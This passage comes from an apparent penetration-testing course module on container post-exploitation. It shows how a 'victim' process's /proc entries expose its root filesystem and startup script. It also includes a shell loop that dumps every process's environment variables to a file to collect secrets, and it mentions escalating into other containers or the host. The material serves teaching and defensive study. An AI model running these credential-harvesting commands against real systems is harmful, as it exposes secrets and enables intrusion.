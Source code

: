 Several of these files are particularly interesting to us. First, the command line arguments can be found in **cmdline**. We can also find the environment variables in **environ** (we'll inspect this a little later.) The **cwd** directory is very interesting because it contains a link to the file system at the current working directory. The **root** directory contains a link to the root directory of the process. The **ns** directory contains namespace information for the process. Finally, **mounts** contains information about the mounted file systems.

We won't inspect all of these, but let's investigate the **root** directory and the **environ** entry.

```
victim:/proc/41594# cat environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cli_leakerHOME=/root
victim:/proc/41594# ls root/
bin            lib            root           tmp
dev            media          run            usr
entrypoint.sh  mnt            sbin           var
etc            opt            srv
home           proc           sys

victim:/proc/41594# cat root/entrypoint.sh
#!/bin/sh

while command
do
   curl -H "APIKEY: $1" http://backend/clean
   sleep 10
done
```

> Listing 32 - Inspecting environ and root

The **environ** file has the variables separated with a null terminator instead of a new line. Although the variables for this process don't contain any useful information, the **root** directory does. In the **root** directory, we can find the contents of **entrypoint.sh**. This information might allow us to further escalate into the environment.

With access to the **root** directory, we can also write contents to the processes' file system. This may result in the ability to privilege escalate to another container or into the host.

While this process didn't have any useful information in the **environ** file, other processes might. Let's create a quick script that will loop through all **environ** files and retrieve the contents.

```
01 for e in $(ls /proc/*/environ); 
02 do 
03    echo "----------"; 
04    echo $e; 
05    cat $e| tr '\0' '\n'; 
06 done > envs.txt
```

> Listing 33 - Script for Looping Environment Variables

The script in the Listing above will start by looping through all **environ** entries in the **proc** file system. For each process, we'll add a separator (line 3) and echo the **environ** file we're indexing. On line 5, we'll get the contents of the file, but we'll translate all null characters using a new line. Finally, we'll save the output to **envs.txt**
